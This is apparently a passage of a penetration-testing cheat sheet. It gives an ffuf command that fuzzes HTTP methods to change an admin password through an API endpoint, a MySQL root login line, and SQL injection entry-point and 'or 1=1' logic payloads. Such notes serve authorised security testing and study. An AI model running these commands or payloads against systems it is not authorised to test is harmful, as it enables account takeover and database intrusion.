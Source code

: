### identify Methods


```bash

ffuf -w test_methods.txt -u https://ip/endpoint_name/v1/user/change_password -X FUZZ -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4" \
-d '{"name": "admin", "password": "hacked"}' -fr "error"

# where FUZZ is replaced by POST, PUT, GET methods by using a regular token obtained throughout the session

```

* No error mean that this particular method worked
* particularly here admin password might have been changed




## SQL injection

Connect

`mysql -u root -p'pass' -h ip`

A very nice cheat sheet is provided by Portswigger: https://portswigger.net/web-security/sql-injection/cheat-sheet


### Test for SQLi vulnerability
* It is necessary to identify a possible SQLi entry point
* Use of special characters can help (got from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection)):

```bash
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content

Multiple encoding

%%2727
%25%27

Merging characters

`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP

Logic Testing

page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
```